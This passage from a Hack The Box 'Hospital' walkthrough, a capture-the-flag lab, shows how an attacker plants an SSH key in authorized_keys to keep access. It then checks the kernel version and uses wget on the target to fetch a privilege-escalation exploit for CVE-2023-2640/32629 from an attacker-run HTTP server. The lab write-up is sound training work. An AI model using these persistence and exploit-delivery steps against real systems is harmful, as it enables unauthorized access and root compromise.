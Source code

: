 ```bash
┌──(kali㉿kali)-[~/Documents/htb-machines/hospital/persistence]
└─$ cat ctf_key.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDqtM5AlnUbVyg+iWvhLSn96sRU5Epi8/8T<SNIP>
```

On the target system , the malicious public key is appended to the `~/.ssh/authorized_keys` file. 

```bash
www-data@webserver:/var/www/html$ nano ~/.ssh/authorized_keys
www-data@webserver:/var/www/html$ cat ~/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDqtM5AlnUbVyg+iWvhLSn<SNIP>
www-data@webserver:/var/www/html$
```

Now if the shell is dropped, it may be possible to easily regain access using SSH

```bash
┌──(kali㉿kali)-[~/Documents/htb-machines/hospital/persistence]
└─$ ssh -i ~/Documents/htb-machines/hospital/persistence/ctf_key www-data@hospital.htb
```

# System enumeration

Checking sudo permissions for the `www-data` account requires a password. 

```bash 
www-data@webserver:/var/www/html$ sudo -l
[sudo] password for www-data:
```

However, a review of the Linux kernel version reveals an unpatched vulnerbaility. 

```bash
www-data@webserver:/var/www/html$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

# Privilege escalation

Searching the linux kernel version reveals a potential privilege escalation vulnerability as described [here](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The vulnerability is easily exploited by downloading the exploit, serving it and retrieving it on the target machine. 

```bash
┌──(kali㉿kali)-[~/…/htb-machines/hospital/exploits/CVE-2023-2640-CVE-2023-32629]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

10.129.229.189 - - [07/Apr/2024 21:54:22] "GET /exploit.sh HTTP/1.1" 200 -
```


```bash
www-data@webserver:/var/www/html$ wget 10.10.14.2:80/exploit.sh
--2024-04-08 08:54:18--  http://10.10.14.2/exploit.sh
Connecting to 10.10.14.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh          100%[===================>]     558  --.-KB/s    in 0s

2024-04-08 08:54:19 (95.0 MB/s) - ‘exploit.sh’ saved [558/558]

www-data@webserver:/var/www/html$
```